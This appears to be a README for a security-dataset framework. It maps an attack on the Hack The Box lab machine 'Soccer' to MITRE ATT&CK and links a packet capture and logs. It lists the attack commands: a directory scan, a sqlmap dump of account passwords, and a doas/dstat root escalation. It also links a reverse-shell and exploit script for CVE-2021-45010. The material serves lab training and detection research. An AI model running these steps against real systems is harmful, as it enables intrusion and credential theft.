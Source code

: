 # Cyber4ML_Framework application in "Soccer" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.31|10.10.11.194|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Soccer Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Soccer/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Active Scanning | Wordlist Scanning | (1) | - |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Initial Access | Exploit Public-Facing Application | - | [reverse_shell.php](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/reverse_shell.php) | CVE-2021-45010/CWE-22 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Initial Access | Exploit Public-Facing Application | - | (4), [exploit.py](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/exploit.py) | - |
| Persistence | Valid Accounts | Local Accounts | (5) | - |
| Discovery | Permission Groups Discovery | Local Groups | (6) | - |
| Privilege Escalation | Abuse Elevation Control Mechanism | Setuid and Setgid | (7) | - |


#### Commands/Scripts
- (1)
```
gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirb/big.txt
```

- (2)
```
whoami
```

- (3)
```
ls /etc/nginx/sites-enabled
```

- (4)
```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts -C username,password --dump
```

- (5)
```
ssh player@10.10.11.194
```

- (6)
```
sudo -l
```

- (7)
```
doas -u root /usr/bin/dstat --exploit
```

## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Soccer/attack_capture.pcapng)

## Log Analysis

```
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
```
